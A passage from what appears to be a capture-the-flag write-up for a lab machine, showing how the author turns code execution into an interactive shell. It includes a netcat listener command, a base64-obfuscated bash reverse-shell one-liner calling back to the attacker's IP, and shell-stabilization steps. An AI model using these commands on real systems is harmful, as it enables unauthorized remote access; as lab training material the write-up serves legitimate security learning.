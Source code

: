 We have code execution !

Now starting a listener using netcat on our local machine.

```bash
nc -lnvp 9001
```

Now we need a payload so that we get a hit back on our netcat listener.

```bash
echo 'YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjE0Ljk4LjIzNS85MDAxIDwmMQ==' | base64 -d | bash
```

I base64 encoded the base reverse shell.

![image.png](/assets/images/Ollie_THM/image%2010.png)

The webpage hangs and on the listener we have a shell as www-data.

![image.png](/assets/images/Ollie_THM/image%2011.png)

Now I will stabilize the shell using python’s pty module, grant us clear permissions and also fix the stty size of rows and columns.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + Z
stty size
stty rows 120 cols 120
```

